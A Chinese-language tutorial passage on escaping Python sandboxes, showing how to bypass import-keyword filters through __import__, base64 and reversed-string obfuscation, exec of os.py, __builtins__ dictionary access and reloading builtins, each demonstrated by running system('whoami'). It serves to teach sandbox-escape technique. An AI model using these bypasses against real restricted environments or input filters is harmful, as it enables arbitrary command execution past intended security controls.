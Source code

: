## 函数导入限制和绕过
### import
一个受限制的环境，禁止导入敏感的包是最常见的方法，所以import一般是最容易被限制掉。

```python
import re,sys

pattern  = re.compile('import\s+(os|subprocess)')
match = re.search(pattern,sys.args[1])
if match:
    print("forbidden module import detected")
    raise Exception
```

这种简单的限制不能导入包的形式，可以中间添加空格来绕过，或者使用其他方式导入包，比如

```python
__import__('os').system('ls')
```
```python
__import__
importlib
```

还可以使用编码的方式绕过对导入包关键字的检查，比如使用base64，python2中适用
```python
>>> import base64

>>> base64.b64encode("os")
'b3M='
>>> flag = __import__(base64.b64decode('b3M='))
>>> flag.system('whoami')
misaki\user

>>> import importlib

>>> flag = importlib.import_module('b3M='.decode('base64'))
>>> flag.system('whoami')

misaki\user
```
![01_02-01](../../../../image/软件开发/编程基础/Python/沙箱逃逸/01_02-01.png)

或者使用字符串拼接的方式
```python
>>> __import__('o'+'s').system('who'+'ami')
aiuser
0
```

字符串f翻转截取
```python
>>> __import__('so'[::-1]).system('whoami')
aiuser
0
>>> exec(')"imaohw"(metsys.so ;so tropmi'[::-1])
aiuser
```

再万一，还可以这么禁止
```python
import re,sys

pattern  = re.compile('import')
match = re.search(pattern,sys.args[1])
if match:
    print("forbidden module import detected")
    raise Exception
```

这样的话，不管怎么换导入函数都会被禁止。那么是否有不直接使用import关键字来导入的方式。既然需要导入也就是只需要能执行对应的库就可以。

使用execfile，不过在这之前需要判断得到库的物理路径。如果sys模块没被禁用的话，就可以使用sys来获取物理路径。这种方式只能用在python2中，python3取消了execfile
```python
>>> execfile('/usr/lib/python2.7/os.py')  #Linux系统下默认路径
>>> system('whoami')
aiuser
```

python3可以利用读取文件，配合exec来执行
```python
>>> f = open(r'/usr/lib/python3.6/os.py','r')
>>> exec(f.read())
>>> system('whoami')
aiuser

# 不可以执行利用 exec 打开读取，exec 需要执行的是其中的内容，直接打开的时候 exec 执行的就是读取文件操作
exec("open('/usr/lib/python3.6/os.py','r').read()")
```

使用with open的形式
```python
>>> with open(r'/usr/lib/python3.6/os.py','r') as f:
...     exec(f.read())
...
>>> system('whoami')
aiuser
```

或者使用字符串拼接的方式，但是需要跟exec，eval一起利用。
```python
>>> exec('imp'+'ort'+' '+'os;'+'os.system("whoami")')
aiuser
```
这里 exec 不需要导入就可以直接引用，当然不需要导入就可以引用的函数不止这一个，因为一个内建函数的原因。

markdown 中 _ 下划线结尾会导致下划线后面的内容变成斜体，所以这里使用加号拼接字符串

### `builtins` 内建模块

`__builtins__`即时引用，在程序还为执行代码的时候就已经加载进来了。此模块并不需要导入，可以在任何模块中执行引用。
比如在python2中
![01_03-01](../../../../image/软件开发/编程基础/Python/沙箱逃逸/01_03-01.png)

python3中
![01_03-02](../../../../image/软件开发/编程基础/Python/沙箱逃逸/01_03-02.png)

所以我们通过dict属性来调用这些函数，例如如下调用exec来执行其中的python语句。
```python
>>> __builtins__.__dict__['exec']("print('ok')")
ok
```
通过内建函数来导入包
```python
>>> __builtins__.__dict__['__import__']('os').system('whoami')
aiuser

```

万一跟上面一样，禁用了import，当然还可以使用拼接的方式
```python
>>> __builtins__.__dict__['__imp'+'ort__']('os').system('whoami')
aiuser
```
如果在`__builtins__`中，部分需要引用的函数被删除。不能直接用dict属性来调用，可以使用reload来重新加载
```python
reload(__builtin__)
```
如果仔细看上面的图片就可以看到，在python2中reload也是__builtin__的内建函数。如果此函数被删除在python2中也不可以直接引用了。python3中reload不再是内建函数，3.4之前是imp模块下的函数，而之后是importlib模块下的函数。

所以可以直接利用imp模块来导入，python2也可以利用。
```python
>>> import imp
>>> imp.reload(__builtins__)
<module '__builtin__' (built-in)>
```
在所上的导入模块中，系统的包都在一个默认路径下，被sys的modules存储记录。如果把其中的os模块删除就不能再去加载os模块了，这时候需要手动把os重新加载进去。一般尝试默认路径，或者sys查看存储路径
```python
>>> import sys
>>> sys.modules['os']='/usr/lib/python3.6/os.py'
>>> import os
>>>
```
